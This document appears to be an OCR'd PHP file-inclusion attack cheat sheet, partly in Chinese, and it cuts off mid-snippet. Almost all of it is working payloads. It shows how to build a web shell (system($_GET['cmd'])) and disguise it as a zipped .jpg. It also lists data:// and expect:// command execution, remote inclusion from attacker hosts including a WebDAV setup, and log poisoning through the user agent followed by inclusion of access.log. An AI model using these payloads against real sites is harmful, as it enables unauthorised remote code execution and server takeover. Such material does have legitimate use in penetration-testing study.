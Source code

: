 	echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
	zip payload.zip payload.php;
	mv payload.zip shell.jpg;
	rm payload.php
	http://example.com/index.php?page=zip://shell.jpg%23payload.php

	http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
 #### expect
  	http://example.com/index.php?page=expect://id
	http://example.com/index.php?page=expect://ls
 #### allow_url_include 开启时Getshell
	远程文件包含
	1.php?file=http://remote.com/shell.txt
	1.php?file=php://input  POST:<?php phpinfo();?>
	1.php?file=http://remote.com/shell.txt%00
	1.php?file=http:%252f%252fremote.com%252fshell.txt
	或使用curl
	>curl -v "http://127.0.0.1:8888/ctf/cli/3.php?file=php://input" -d "<?php phpinfo();?>"
	或使用data://协议解析base64的代码
	/1.php?file=data://text/plain;base64,PD9waHAgIHBocGluZm8oKTs/Pg==
 #### allow_url_include 关闭时Getshell
	攻击机开启共享
	/1.php?file=//attacker/1.php
	创建webdav服务，shell文件放入目录包含即可
	>docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
	Shell文件放入/root/webdav/data
	/1.php?file=//attacker/1.php
 #### 包含日志文件getshell
	Fuzz文件
	https://github.com/fuzzdb-project/fuzzdb
	https://github.com/danielmiessler/SecLists
	https://blog.csdn.net/qq_33020901/article/details/78810035
	/1.php?file=<?php phpinfo();?>
	/1.php?file=../../../../../../../var/log/apache2/access.log
	Win下使用phpstudy
	请求/<?php phpinfo();?>
	包含错误日志
	/1.php?file=C:\phpStudy\Apache\logs\error.log

	$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
	$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id

	http://example.com/index.php?page=/var/log/apache/access.log
	http://example.com/index.php?page=/var/log/apache/error.log
	http://example.com/index.php?page=/var/log/apache2/access.log
	http://example.com/index.php?page=/var/log/apache2/error.log
	http://example.com/index.php?page=/var/log/nginx/access.log
	http://example.com/index.php?page=/var/log/nginx/error.log
	http://example.com/index.php?page=/var/log/vsftpd.log
	http://example.com/index.php?page=/var/log/sshd.log
	http://example.com/index.php?page=/var/log/mail
	http://example.com/index.php?page=/var/log/httpd/error_log
	http://example.com/index.php?page=/usr/local/apache/log/error_log
	http://example.com/index.php?page=/usr/local/apache2/log/error_log
 #### 上传个图片格式的木马直接包含
	/1.php?file=/uploadfile/1.jpg
 #### 限制后缀时
	<?php
	$file = $_GET['file'].".php";
	include($file);